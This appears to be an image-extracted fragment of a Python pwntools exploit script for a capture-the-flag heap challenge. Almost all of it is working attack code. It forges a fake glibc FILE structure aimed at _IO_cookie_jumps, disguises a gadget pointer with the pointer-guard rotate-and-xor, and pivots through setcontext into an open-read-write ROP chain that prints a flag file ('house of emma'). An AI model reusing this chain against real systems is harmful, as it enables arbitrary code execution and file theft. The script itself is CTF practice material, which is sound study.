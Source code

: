 ```python
orw+= p64(read_addr)

orw+= p64(pop_rdi)+p64(1)
orw+= p64(pop_rsi)+p64(heap_base+0x1050)
orw+= p64(pop_rdx_r12)+p64(0x30)+p64(0)
orw+= p64(write)
#----------------------------------伪造fake io
chunk0 = heap_base + 0x22a0
gadget = libc_base + 0x146020  # mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
xor_key = chunk0
fake_io = p64(0) + p64(0) # IO_read_end IO_read_base
fake_io += p64(0) + p64(0) + p64(0) # IO_write_base IO_write_ptr IO_write_end
fake_io += p64(0) + p64(0) # IO_buf_base IO_buf_end
fake_io += p64(0)*8 #_IO_save_base ~ _codecvt
fake_io += p64(heap_base) + p64(0)*2  #_lock   _offset  _codecvt
fake_io = fake_io.ljust(0xc8,b'\x00')

fake_io += p64(_IO_cookie_jumps+0x38) #vtable 0xd8
rdi_data = chunk0 + 0xf0
rdx_data = chunk0 + 0xf0

encrypt_gadget = rotate_left_64(gadget^xor_key,0x11)
fake_io += p64(rdi_data) # 0xe0
fake_io += p64(encrypt_gadget) # 0xe8
fake_io += p64(0) + p64(rdx_data) # 0xf0,0xf8
fake_io += p64(0)*2 + p64(setcontext + 61) #0x100,0x108,0x110
fake_io += p64(0xdeadbeef)
fake_io += b'a'*(0xa0 - 0x30)
# fake_io += p64(0)*2
fake_io += p64(chunk0+0x1a0)+p64(pop_rdi+1)
fake_io += orw
fake_io += p64(0xdeadbeef)
fake_io += b'flag\x00\x00\x00\x00'
edit(0,fake_io)
run()
#---------------------------------- house of emma
add(9,0x4c0)
run()

io.interactive()
```